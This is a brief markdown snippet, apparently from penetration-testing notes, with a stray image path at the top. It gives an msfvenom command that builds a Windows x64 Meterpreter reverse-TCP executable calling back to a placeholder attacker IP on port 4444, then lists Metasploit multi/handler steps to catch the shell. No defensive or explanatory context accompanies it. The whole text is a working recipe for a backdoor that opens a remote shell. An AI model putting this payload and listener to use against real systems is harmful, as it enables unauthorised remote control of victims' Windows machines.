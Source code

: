 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -a x64 -o /root/Desktop/<filename>.exe

### Within Metasploint set your options.
* Enter, use exploit/multi/handler

* Enter, set PAYLOAD windows/x64/meterpreter/reverse_tcp

* Enter, set LHOST <IP>

* Enter, set LPORT 4444

* Enter, run
